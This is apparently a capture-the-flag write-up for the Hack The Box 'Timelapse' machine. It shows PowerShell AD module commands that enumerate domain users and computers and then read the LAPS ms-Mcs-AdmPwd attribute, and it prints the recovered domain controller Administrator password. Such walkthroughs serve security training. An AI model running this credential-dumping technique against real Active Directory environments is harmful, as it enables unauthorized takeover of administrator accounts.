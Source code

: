 The LAPS (Local Administrator Password Solution) is used to manage local account passwords of Active Directory computers.
### Finding Administrator password with native PowerShell AD Module thanks LDAP saved password
We can enter the following command to test it the AD module is installed on the target machine, with that module we will be able to enumerate better:

```shell
Get-ADUser -Filter * -Properties * | Select Name, MemberOf
```

It worked! We got some results with some users, meaning the AD module is installed:

```shell
Name          MemberOf
----          --------
Administrator {CN=Group Policy Creator Owners,CN=Users,DC=timelapse,DC=htb, CN=Domain Admins,CN=Users,DC=timelapse,DC=htb, CN=Enterprise Admins,CN=Users,DC=timelapse,DC=htb, CN=Schema Admins,CN=Users,DC=timelapse,DC=htb...}
Guest         {CN=Guests,CN=Builtin,DC=timelapse,DC=htb}
krbtgt        {CN=Denied RODC Password Replication Group,CN=Users,DC=timelapse,DC=htb}
TheCyberGeek  {CN=Domain Admins,CN=Users,DC=timelapse,DC=htb}
Payl0ad       {CN=Domain Admins,CN=Users,DC=timelapse,DC=htb}
Legacyy       {CN=Development,OU=Groups,OU=Staff,DC=timelapse,DC=htb, CN=Remote Management Users,CN=Builtin,DC=timelapse,DC=htb}
Sinfulz       {CN=HelpDesk,OU=Groups,OU=Staff,DC=timelapse,DC=htb}
Babywyrm      {CN=HelpDesk,OU=Groups,OU=Staff,DC=timelapse,DC=htb}
svc_deploy    {CN=LAPS_Readers,OU=Groups,OU=Staff,DC=timelapse,DC=htb, CN=Remote Management Users,CN=Builtin,DC=timelapse,DC=htb}
TRX           {CN=Domain Admins,CN=Users,DC=timelapse,DC=htb}
```

Now we can also use the AD module to enumerate the computers:

```shell
Get-ADComputer -Filter * | Select Name, Enabled, SamAccountName
```

```shell
Name  Enabled SamAccountName
----  ------- --------------
DC01     True DC01$
DB01     True DB01$
WEB01    True WEB01$
DEV01    True DEV01$
```

With the AD module, we can use the following command to get the password of Local Administrators on the devices where LAPS is configured:

```shell
Get-ADComputer -Filter * -Properties * | Select Name, ms-Mcs-AdmPwd
```

Nice! Now we got the Administrator password:

```shell
Name  ms-Mcs-AdmPwd
----  -------------
DC01  uvl4s-F$stf,NBy!fP{3wat0
DB01
WEB01
DEV01
```
